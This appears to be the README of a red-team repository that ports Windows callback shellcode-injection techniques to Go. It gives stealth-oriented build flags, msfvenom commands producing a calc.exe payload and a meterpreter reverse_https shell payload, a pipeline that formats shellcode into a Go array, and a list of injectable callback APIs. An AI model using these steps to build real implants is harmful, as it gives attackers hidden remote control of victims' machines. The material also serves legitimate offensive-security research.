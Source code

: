 # Golang-Callback-Injection
## Disclaimer
This repository presents a collection of already well-documented injection primitives, adapted to Go. The PoCs are not meant to evade competent AVs out-of-the-box as they have been around for quite some time now, but could be combined along with other techniques.

## Build
```
GOOS=windows go build -o DrawState.exe callbacks/DrawStateW.go

# Additional flags for opsec considerations
-ldflags -H=windowsgui  (do not pop any window)
-trimpath               (remove local path from final PE)
-ldflags="-s -w"        (shrink executable)
```
## Payload generation
The `hex` output of msfvenom was used as there was no golang buffer formatting
```
msfvenom --platform windows -a x64  -p windows/x64/exec CMD=calc.exe -f hex -o calc.hex
```
However these few lines allow to format manually 
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=127.0.0.1 LPORT=443 -f raw -o meterpreter.bin
cat meterpreter.bin | xxd -p | sed 's/.\{2\}/0x&, /g' > meterpreter.gohex

# Then in the template
var shellcode = []byte{
  // insert formatted shellcode here
}
```



## Callback injection primitives
The following callback injection primitives have been pushed.
```
- DrawState
- EnumChildWindows
- EnumDisplayMonitors
- EnumDateFormats
- EnumDesktops
- GrayString
- EnumFonts
- LineDDA              
- EnumFontFamilies
- CallWindowProc
- EnumTimeFormats
- EnumWindows
- EnumDesktopWindows
- EnumThreadWindows
- EnumSystemLocales
- EnumSystemGeoID
```

## Untested callback injection primitives 
```
- EnumSystemLanguageGroups
- EnumUILanguages
- EnumSystemCodePages
```
Many more are presented in the pentester's promiscuous notebook ([https://ppn.snovvcrash.rocks/red-team/maldev/code-injection](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection))


### References
- [http://ropgadget.com/posts/abusing_win_functions.html](http://ropgadget.com/posts/abusing_win_functions.html)
- [https://github.com/Ne0nd0g/go-shellcode](https://github.com/Ne0nd0g/go-shellcode)
- [https://github.com/aahmad097/AlternativeShellcodeExec](https://github.com/aahmad097/AlternativeShellcodeExec)
- [https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection](https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection)
- [https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/](https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/)

### Relevant resources
- [https://www.pinvoke.net](https://www.pinvoke.net)
- [https://ppn.snovvcrash.rocks/red-team/maldev/code-injection](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection)
